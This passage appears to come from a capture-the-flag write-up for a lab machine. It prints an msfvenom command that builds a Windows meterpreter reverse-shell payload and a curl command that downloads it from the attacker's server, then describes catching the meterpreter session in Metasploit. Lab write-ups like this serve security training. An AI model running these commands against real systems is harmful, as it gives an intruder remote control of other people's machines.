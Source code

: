 ```sh
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.86 LPORT=4444 -f exe > tnt.exe
```

To transfer the payload, navigate to the current user's (svc_minecraft) desktop and use the following command:

```sh
curl http://10.10.14.86:8000/tnt.exe -o tnt.exe
```

![crafty_10.png](/assets/posts/crafty/crafty_10.png)

I then used multi/handler in Metasploit as can be seen below to start a listener:

![crafty_11.png](/assets/posts/crafty/crafty_11.png)

Back on the shell we have for the target machine, I executed the payload:

![crafty_12.png](/assets/posts/crafty/crafty_12.png)

As can be seen in the screenshot below, we now have a meterpreter shell:

![crafty_13.png](/assets/posts/crafty/crafty_13.png)
